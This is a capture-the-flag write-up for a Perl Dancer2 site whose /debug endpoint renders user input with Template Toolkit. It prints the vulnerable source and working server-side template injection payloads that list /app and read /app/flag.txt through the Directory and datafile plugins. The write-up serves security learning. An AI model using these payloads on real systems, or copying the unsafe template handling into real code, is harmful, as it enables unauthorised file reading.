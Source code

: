 ## Description
Google sẽ cho bạn tất cả đáp án ^_^. Flag nằm ở /app/flag.txt
## Hints 
none
## Solution
This is the website for the challenge:

![image](https://github.com/user-attachments/assets/d747b2cd-7bed-4705-97b6-fcc10d5c1147)

Here’s the source code of the website:

```
use strict;
use warnings;

use Dancer2;
use Template;


get '/' => sub {
    my $greeting = "Template_toolkit";
    template 'index' => {
        greeting => $greeting
    };
};

post '/debug' => sub {
    my $input = body_parameters->get('debug');
    my $output;
    
    my $template = Template->new({
        INCLUDE_PATH => './views'
    });
    $template->process(\$input, {}, \$output) or die $template->error();
    return $output;
};

start;
```
From the source code, we can see that the challenge uses a template engine called: [Template toolkit](https://template-toolkit.org/), and with the hint we could try to do something with the `/debug` page with POST method.

A quick Google search for `Template Toolkit debug` gave me some useful ways to exploit the website: https://template-toolkit.org/docs/manual/Config.html

I started with a simple payload to check if it would works: `debug=[% 'hello' %]`, and the page return the word hello.

That's interesting to know, now i could try a more complex payload to get the flag.

Here’s one possible solution:

`debug=`

`[% USE dir = Directory('/app') %]`: assigning the directories from the path `/app` to the variable `dir` 

`[% FOREACH file = dir.files %]`: loop through files in the directory specified by the `dir` variable

`[% file.name %]`: prints the name of the files

`[% END %]`: closes the FOREACH loop

When executed, this payload returns a list of files:

![image](https://github.com/user-attachments/assets/fba82678-24ff-4502-8cbe-5fbb240b85c7)

Now that we khow where the flag is, we just need to extract it.

I used the following payload:

`debug=`

`[% USE userlist = datafile('/app/flag.txt', delim = ' ') %]`: assigning the content of the file `/app/flag.txt` to `userlist`, using datafile plugin with the delimiter, in this case is the space character.

`[% FOREACH record = userlist %]`: creates a list of records, userlist contains the records from the flag.txt file.

`[% record.Here %]`: print the content of the records

`[% END %]`: closes the FOREACH loop

We got the flag eventually.

![Screenshot 2024-08-18 131638](https://github.com/user-attachments/assets/19738ba2-f36e-4915-a6bc-caddad1ae609)





